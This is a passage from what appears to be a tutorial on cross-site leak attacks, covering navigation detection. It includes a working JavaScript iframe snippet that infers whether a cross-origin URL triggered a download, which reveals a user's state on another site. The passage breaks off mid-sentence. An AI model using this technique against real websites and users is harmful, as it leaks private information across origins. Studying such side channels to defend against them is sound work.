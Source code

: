 ## Navigations

---

### Background

Determining which cross-site requests were made, which pages were loaded, and what navigations were triggered is extremely valuable to an attacker. Because the site returns different responses depending on the user’s state, an attacker can extract a variety of information by observing those navigations.

### Download Trigger

When serving a download endpoint, you typically include the header:

`Content-Disposition: attachment`

By setting this header, the browser is instructed to download the response as a file attachment instead of navigating to it directly.

You can detect whether a download occurred using the following code.

```jsx
const leak = (url) => {
  return new Promise((resolve) => {
    const iframe = document.createElement("iframe");
    iframe.src = url;
    // iframe.sandbox = 'allow-scripts allow-same-origin allow-popups';

    iframe.onload = () => {
      try {
        // is it about:balnk?
        void iframe.contentWindow.location.href;
        // Accessible if from the same origin
        resolve(1);
      } catch {
        // If it is cross origin, an exception occurs.
        resolve(0);
      } finally {
        iframe.remove();
      }
    };

    document.body.appendChild(iframe);
  });
};

export { leak };
```

When a download is triggered—that is, when the response header is set to

`Content-Disposition: attachment`
